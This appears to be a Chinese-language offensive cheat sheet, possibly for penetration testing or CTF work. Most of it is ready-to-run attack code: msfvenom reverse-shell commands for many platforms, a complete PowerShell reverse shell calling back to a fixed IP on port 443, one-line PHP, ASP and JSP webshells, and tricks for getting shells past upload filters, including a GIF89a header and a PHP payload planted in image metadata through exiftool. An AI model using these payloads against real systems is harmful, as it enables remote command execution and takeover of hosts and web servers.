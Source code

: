 ### 反向shell
#### Linux - MSFVenom
~~~

msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
~~~
#### Windows - MSFVenom
~~~

msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
~~~
#### Powershell
~~~

powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.194',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
~~~
#### ASP
~~~

msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
~~~
#### ASPX
~~~

msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx
~~~
#### JSP
~~~

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
~~~
#### WAR
~~~


msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
~~~
#### PHP
~~~

msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
~~~
#### HTA
~~~

msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f hta-psh > shell.hta
~~~
#### DLL
~~~

msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f dll > shell.dll
~~~
#### 反向shell在线生成
~~~

https://weibell.github.io/reverse-shell-generator/
~~~
### 简单的webshell
#### PHP
~~~

<?php echo passthru($_GET['cmd']); ?>
<?php echo shell_exec($_GET['cmd']); ?>
~~~
#### ASP
~~~

<% eval request("cmd") %>
~~~
#### JSP
~~~

<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
~~~
### 文件上传绕过
#### 后缀拓展
~~~

PHP: phtml, .php, .php3, .php4, .php5, and .inc

ASP: asp, .aspx

PERL: .pl, .pm, .cgi, .lib

JSP: .jsp, .jspx, .jsw, .jsv, and .jspf

Coldfusion: .cfm, .cfml, .cfc, .dbm
~~~
#### 使用GIF89a
~~~

GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
~~~
#### 图片中包含shell
~~~

exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
~~~
